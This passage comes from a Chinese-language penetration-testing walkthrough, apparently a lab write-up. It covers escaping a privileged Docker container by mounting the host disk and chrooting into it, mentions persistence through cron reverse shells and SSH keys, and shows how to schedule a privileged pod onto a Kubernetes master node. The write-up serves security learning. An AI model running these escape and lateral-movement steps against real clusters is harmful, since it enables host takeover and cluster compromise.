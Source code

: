 查看 docker 中的一些服务、共享目录、挂载等

## 五、docker 逃逸

查看 `/proc/1/status`，发现此容器为特权容器

<br>

<img width="600" src="/img/image-20220830131547932.png"></br>

这里使用如下命令

````bash
mkdir /httpd_test
mount /dev/sda1 /httpd_test
chroot /httpd_test/
````

现在在使用 Kubernetes 等命令可以发现能够执行成功，证明已经逃逸出来了。

<br>

<img width="800" src="/img/image-20220830144327410.png"></br>

接下来就是写定时任务反弹 shell、写 ssh 等。

## 六、node 节点到 master 节点

上面已经获取到 node 节点 shell，因为生产环境的 docker、pod 与 k8s 一般不属于同一网段，现在获取到 node 节点权限就可以访问整个 k8s 集群网络了。

一般在 node 节点不能执行 k8s 命令，这里实验环境简易搭建一下。

首先通过如下命令，设置节点标号，然后清除 master 节点不能分配 pod

```bash
> kubectl label node k8s-master  type=node1
> kubectl taint nodes --all node-role.kubernetes.io/master-node "k8s" untainted
> kubectl describe node k8s | grep Taints
  Taints:             <none>
```

创建如下 nginx-pod.yaml 文件

```yaml
apiVersion: v1
kind: Pod                     # 类型为 Pod
metadata:	
  name: nginx-pod1            # Pod 的名称
  labels:
    app: nginxlabel
spec:
  nodeSelector:
    type: node1
  containers:                  # Pod 内容器的定义部分
    - name: nginx              # 容器对应的名称
      image: nginx             # 容器对应的 Docker 镜像
      ports:
        - containerPort: 80    # 容器应用监听的端口号
      securityContext:
        privileged: true
```
